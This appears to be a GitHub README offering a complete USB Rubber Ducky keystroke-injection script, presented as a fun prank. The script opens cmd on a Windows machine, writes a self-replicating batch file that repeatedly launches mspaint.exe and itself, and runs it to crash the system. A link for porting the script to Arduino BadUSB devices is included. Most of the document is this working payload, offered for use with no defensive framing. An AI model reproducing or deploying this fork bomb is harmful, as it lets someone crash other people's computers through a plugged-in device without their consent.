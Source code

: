 # About...
Version: 1.0

Author: BlueArduino20

# Fork Bomb for Rubber Ducky (For Windows)
Really basic script to crash Windows executing exponencially "mspaint.exe" and the same bat. It could be fun!

It's designed for the USB Rubber Ducky, but you can convert it for other BadUSB working with arduino with Duckuino.js (By d4n5h): https://github.com/d4n5h/Duckuino

Anyway, here you've got the code:

# Code for Rubber Ducky

<pre><code>REM Fork Bomb for Windows. By: BlueArduino20
REM Let's give windows time to recognize our BadUSB
DELAY 2000
GUI r
ENTER
DELAY 100
STRING cmd
ENTER
DELAY 100
STRING copy con F.bat
ENTER
STRING :A
ENTER
STRING start mspaint.exe && start F.bat
ENTER
STRING GOTO A
ENTER
CONTROL z
ENTER
DELAY 100
STRING start F.bat</pre></code>
